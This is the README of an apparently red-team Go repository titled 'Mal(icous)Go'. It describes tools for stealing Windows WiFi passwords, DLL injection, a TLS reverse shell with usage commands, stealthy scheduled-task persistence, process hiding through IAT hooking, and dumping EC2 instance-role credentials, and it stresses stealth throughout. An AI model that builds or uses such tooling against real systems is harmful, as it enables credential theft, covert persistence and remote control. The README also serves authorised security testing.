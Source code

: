 # Mal(icous)Go

## Disclaimer

Should only be used for systems that you have explicit permission to target, I take no responsibility for actions performed using any code from this repository.

Use at your own risk! 

## wifi pwds

Retrieve WLAN passwords from Windows. Uses native calls in Win32 API rather than executing `netsh wlan ...` as a command, this approach is more stealthy!

## inject

Injects a DLL into a remote process uses the classic on disk / `LoadLibrary` approach so should be used primarily for testing as it is not opsec safe.

Usage:

~~~
inject_x64.exe <dll_path> <pid>
~~~

## rshell

Simple reverse shell implementation client supports comms over TLS using the `tlsserver.go` server code.

### client

_Certificate is embedded into the compiled binary, update to a newly created cert._

~~~
client -tls -port 4444 <host>
~~~

### server

~~~
tlsserver -port 4444 <cert> <key>
~~~

## proxy

Simple TCP proxy

~~~
proxy <port> <host:port>
~~~

## persistence

A PoC to test adding a scheduled task into windows via COM/OLE rather than the noisey approach of using `schtasks.exe`. Please adjust to your needs!

## hideproc

Uses IAT hooking to hook into the low level `NtQuerySystemInformation` function import from `ntdll.dll` and hide processes based on an image name. Also includes a test executable to test against. Simply inject the DLL into the process you want to hide processes from.

Also demonstrates being able to read the PE including the IAT entries in-memory.

Code could be adjusted to perform other tasks.

## imdsdump

Find yourself on an EC2 instance with an assigned role?! This will use the IMDS to retrieve the temporary creds. Useful if the EC2 host is locked down making it tricky to call the service using other methods and also supports working against IMDSv2 that requires a token.

Compiles to an exe however the code could be changed and compiled as a DLL to be used in-memory to be more stealty or when app blocking is in place.